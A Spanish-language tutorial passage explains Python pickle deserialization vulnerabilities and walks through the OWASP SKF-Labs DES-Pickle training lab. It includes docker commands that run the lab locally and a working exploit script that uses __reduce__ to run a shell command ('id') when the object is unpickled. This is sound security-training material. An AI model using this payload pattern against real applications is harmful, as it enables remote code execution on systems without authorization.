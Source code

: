 _____________________
Un Ataque de **Deserialización Pickle** (**DES-Pickle**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

El impacto de un Ataque de Deserialización Pickle depende del tipo y la sensibilidad de los datos que se puedan obtener, pero puede ser muy grave. Por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren de forma adecuada la entrada Pickle que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables.
__________________________

[SKF-LABS DES-Pickle](https://github.com/blabla1337/skf-labs/tree/master/python/DES-Pickle)

```bash
docker pull blabla1337/owasp-skf-lab:des-pickle
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

Notamos que la APP esta corriendo _**pickle**_ para leer el input del usuario

Este script en _**python**_ nos permite serializar la data ejecutando un comando en el momento en que la APP la deserialize

```python
import pickle
import os
import binascii

class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit())))
```
______________________________

